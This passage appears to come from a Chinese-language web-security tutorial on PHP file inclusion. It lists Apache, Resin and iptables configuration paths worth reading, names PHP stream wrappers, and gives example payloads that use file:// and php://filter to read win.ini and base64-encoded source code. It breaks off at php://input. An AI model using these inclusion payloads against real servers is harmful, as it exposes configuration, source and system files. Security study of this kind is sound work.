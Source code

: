 ```plain

/etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf 查看linux APACHE虚拟主机配置文件

/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看

/usr/local/resin-pro-3.0.22/conf/resin.conf 同上

/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看

/etc/sysconfig/iptables 查看防火墙策略
```

### 1.2 PHP伪协议

```plain
file:// — 访问本地文件系统
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```

#### 2.1 `file://`

无配置要求

可直接读取本地文件

```
include.php?file=file:*//C:/Windows/win.ini*
```

#### 2.2 `PHP://`

##### 1. `php://filter`

无要求

将php代码编码后输出，可以不编码直接原样输出。

```
include.php?file=php:*//filter/read=convert.base64-encode/resource=index.php*
```



##### 2.`php://input`



可以访问请求的原始数据的只读流。即可以直接读取到POST上没有经过解析的原始数据。 `enctype="multipart/form-data"` 的时候` php://input` 无效的。

```
allow_url_include = On
```
